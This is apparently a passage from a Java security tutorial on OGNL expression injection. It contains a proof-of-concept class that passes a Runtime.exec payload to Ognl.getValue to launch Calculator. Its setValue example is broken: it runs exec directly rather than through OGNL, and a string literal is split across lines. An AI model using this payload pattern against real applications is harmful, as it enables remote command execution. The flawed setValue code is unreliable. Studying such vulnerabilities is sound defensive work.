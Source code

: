 # OGNL expression injection vulnerability
## Vulnerability Principle
The above mentioned that OGNL can access static methods, properties, object methods, etc., including the class `java.lang.Runtime` that can perform malicious operations such as command execution. When the OGNL expression is externally controllable, the attacker can construct malicious OGNL expressions to let the program perform malicious operations. This is the `OGNL` expression injection vulnerability.

## POC
You can see that both `getValue` and `setValue` can successfully parse malicious `OGNL` expressions.


```java
package h3rmek1t.javawebsecurity;

import ognl.Ognl;
import ognl.OgnlContext;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/19 1:34 am
 */
public class ognlExploit {

    public static void main(String[] args) throws Exception {

        // Create an OGNL context object.
        OgnlContext ognlContext = new OgnlContext();

        // Trigger getValue.
        Ognl.getValue("@java.lang.Runtime@getRuntime().exec('open -a Calculator')", ognlContext, ognlContext.getRoot());

        // Trigger setValue.
        Ognl.setValue(Runtime.getRuntime().exec("open -a Calcula
tor"), ognlContext, ognlContext.getRoot());
    }
}
```

<div align=center><img src="./images/2.png"></div>

<div align=center><img src="./images/3.png"></div>

## Process Analysis
Set a breakpoint at `Ognl.getValue`, follow up on the `Ognl#getValue` method, and call the `Ognl#parseExpression` method, which parses the string of type passed in `String` to the `ASTChain` type that the `OGNL` expression can understand.
